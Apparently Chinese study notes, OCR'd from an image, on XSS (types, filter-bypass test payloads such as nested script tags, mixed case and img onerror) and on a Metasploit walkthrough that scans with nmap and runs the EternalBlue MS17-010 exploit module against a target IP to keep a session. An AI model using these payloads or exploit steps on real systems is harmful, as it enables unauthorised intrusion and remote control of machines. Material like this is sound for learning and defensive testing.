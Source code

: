 DOM型（有编程要求）

反射型（无要求）

存储型（有一点要求）

标准测试语法

```
<script>alert(1)</script>
```

如果script替换为空

```
<scr<script>ipt>alert(1)</script>
```

前端代码是不识别大小写的

```
<scRIpt>alert(1)</script>
```

图片无法加载可以触发js

```
<img src =’x' onerror='alert(1)' />
```

CSRF跨站请求伪造

------

## MSF (Metasploit)攻击框架

木马 = 服务端（目标） + 控制端（黑客）

msfconsole 打开msf

可以调用nmap

nmap -sV [目标ip]

永恒之蓝 ms17_010

msf如果使用漏洞去攻击对方，需要的条件：

1.漏洞

2.攻击载荷（木马，病毒）

use exploit/windows/

smb/ms17_010_eternalblue

show options

set rhosts [目标ip]

run 运行

持续控制：background sessions -i [number]
